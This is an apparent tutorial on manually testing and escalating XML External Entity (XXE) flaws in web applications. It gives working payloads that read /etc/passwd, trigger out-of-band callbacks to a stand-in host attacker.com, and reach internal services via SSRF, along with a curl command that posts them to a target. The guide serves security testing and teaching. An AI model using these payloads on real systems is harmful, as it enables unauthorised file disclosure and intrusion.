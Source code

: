 ```yaml
---
title: Comprehensive Guide to XXE Testing Methodology
description: Explore a step-by-step approach to testing and escalating XXE vulnerabilities
  in web apps, including attack surface mapping and OOB exploitation.
keywords:
- XXE testing
- XML External Entity
- XXE vulnerabilities
- OOB exploitation
- attack surface mapping
- XML parser enumeration
- file disclosure
- XXE escalation
- SSRF via XXE
---
```


# XXE Testing Methodology

## Context

In this article, we will equip you with a structured, operational methodology for manually testing and escalating XML External Entity (XXE) vulnerabilities in web applications. This guide assumes familiarity with XML structure, entity declarations, DTD processing, and basic XXE injection techniques. 

## Theory

### Mapping the XML Attack Surface

Identifying the attack surface is crucial for effectively testing XXE vulnerabilities. The attack surface includes all application endpoints that accept XML inputs, such as file uploads, API endpoints, SOAP interfaces, and SAML processors. Start by enumerating these endpoints, analyzing request and response patterns, and locating XML parsing logic. This foundational step ensures you target all possible XML entry points within the application.

### Parser Enumeration and Behavior Analysis

Understanding the XML parser type and configuration is essential to assess the exploitability of XXE. Different parsers have varying support for external entities and DTD processing, which can influence the feasibility of an XXE exploit. Start by injecting benign XML entities and observing error messages or parser responses. This technique helps infer the backend parser type and its configuration, guiding subsequent attack vectors.

### XXE Testing Workflow and Escalation Paths

A structured workflow is fundamental for efficient XXE testing and escalation. Begin with basic entity injection attempts. If successful, escalate to more sensitive actions like file disclosure, Server-Side Request Forgery (SSRF), and Out-of-Band (OOB) data exfiltration. The potential for escalation largely depends on the parser configuration and network egress controls, and recognizing these conditions allows attackers to choose optimal techniques.

### Blind and Out-of-Band (OOB) XXE Methodology

In cases where there is no direct response from the server, or blind XXE, Out-of-Band channels become pivotal. Blind XXE techniques utilize DNS, HTTP, or FTP callbacks to confirm and extract data, bypassing direct interaction with the target. Setting up an OOB channel involves configuring an external server to capture these callbacks, thus confirming XXE execution remotely.

## Practice

### Manual XXE Testing Workflow

- **Craft XML Payload**: Create an XML file with a payload designed to disclose sensitive information.
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <foo>&xxe;</foo>
    ```

- **Execute Payload**: Send the crafted XML payload to the target endpoint using a tool like `curl`.
    ```bash
    curl -X POST -H 'Content-Type: application/xml' --data-binary @payload.xml https://target/app/upload
    ```

- **Verify Response**: Check the server's response for the contents of sensitive files such as `/etc/passwd`.
    ```
    (Expected Response Example)
    Response contains contents of /etc/passwd
    ```

### Blind XXE with OOB Data Exfiltration

- **Initiate OOB Callback**: Use an XML payload to trigger an out-of-band HTTP request to an attacker-controlled server.
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com/xxe"> %xxe; ]>
    <foo>bar</foo>
    ```

- **Monitor for Incoming Requests**: Observe the server logs on `attacker.com` for incoming requests, which indicate successful XXE execution via the OOB channel.

### XXE Escalation to SSRF

- **Send SSRF Payload**: Attempt to leverage XXE to conduct SSRF and access internal services.
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://localhost:8080/internal"> ]>
    <foo>&xxe;</foo>
    ```

- **Analyze Response**: Inspect the server's response for any data or error messages indicating internal service access.
    ```
    (Expected Response Example)
    Response contains internal service data or error message.
    ```

## Tools

- **Burp Suite**
- **curl**
- **Responder**
- **tcpdump** 

By following this methodology and utilizing the outlined tools, you can systematically evaluate and exploit potential XXE vulnerabilities within web applications, advancing your offensive cybersecurity skill set.